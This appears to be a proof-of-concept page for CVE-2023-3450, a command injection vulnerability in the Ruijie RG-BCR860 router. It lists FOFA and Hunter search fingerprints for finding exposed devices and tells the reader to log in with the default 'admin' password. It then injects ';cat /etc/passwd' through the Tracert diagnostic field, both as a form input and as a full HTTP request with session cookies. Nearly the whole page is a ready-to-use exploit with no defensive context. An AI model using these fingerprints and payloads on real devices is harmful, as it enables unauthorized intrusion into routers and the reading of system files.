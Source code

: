 # 锐捷 RG-BCR860 命令执行漏洞 CVE-2023-3450

## 网络测绘

fofa: icon_hash="-399311436"

hunter: 

web.icon="c87bab9d4a9129f7d2e97044dbae6793"

web.body="luci-static/ruijie/imgs/login-nav-bg.png"

## POC / EXP

```
默认密码admin登录

左侧菜单栏 -> 网络诊断 -> Tracert检测地址

127.0.0.1;cat /etc/passwd
```

```
GET /cgi-bin/luci/;stok=f039132f4ff3110277618cf485069fba/admin/diagnosis?diag=tracert&tracert_address=127.0.0.1%3Bcat+%2Fetc%2Fpasswd&seq=0 HTTP/1.1
Host: 
Connection: keep-alive
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Referer: 
Accept-Encoding: gzip, deflate
Cookie: sysauth=47a4d3e3eaaa553c8a275dd8ac2abe2f
```